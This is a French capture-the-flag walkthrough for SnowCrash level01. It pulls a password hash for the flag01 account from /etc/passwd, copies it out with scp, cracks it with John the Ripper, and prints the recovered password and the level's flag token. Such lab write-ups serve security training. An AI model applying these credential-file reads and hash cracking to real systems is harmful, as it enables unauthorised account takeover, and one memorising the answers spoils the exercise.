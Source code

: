 # Level01


</br>
</br>


## Accéder au mot de passe à partir de /etc/shadow

```zsh
evel01@SnowCrash:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied
level01@SnowCrash:~$ ls -al /etc/shadow
-rw-r----- 1 root shadow 4428 Mar  6  2016 /etc/shadow
```

</br>
</br>



## Accéder à /etc/passwd


```zsh
level01@SnowCrash:~$ cat /etc/passwd | grep flag01
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```

Les mots de passe stockés dans /etc/passwd sont généralement stockés sous forme chiffrée, par exemple en utilisant une fonction de hachage telle que MD5 ou SHA-256.

</br>
</br>


## Décrypter "42hDRfypTqqnw" avec john the ripper

</br>

### 1. Enregistrer le mot de passe SCP dans un fichier et le déplacer localement

</br>

```zsh
cat /etc/passwd | grep flag01 | cut -d":" -f 2 > /tmp/passwd
```

local

```zsh
$> scp -P 4242 level01@192.168.56.2:/tmp/passwd ./

           _____                      _____               _
          / ____|                    / ____|             | |
         | (___  _ __   _____      _| |     _ __ __ _ ___| |__
          \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
          ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
         |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          192.168.56.2
level01@192.168.56.2's password:
passwd                                                   100%   14     5.9KB/s   00:00

$> john ./passwd --show
?:abcdefg

1 password hash cracked, 0 left
```

ssh

```zsh
flag01@SnowCrash:~$ getflag
Check flag.Here is your token : f2av5il02puano7naaf6adaaf
flag01@SnowCrash:~$ su level02
Password:
level02@SnowCrash:~$
```

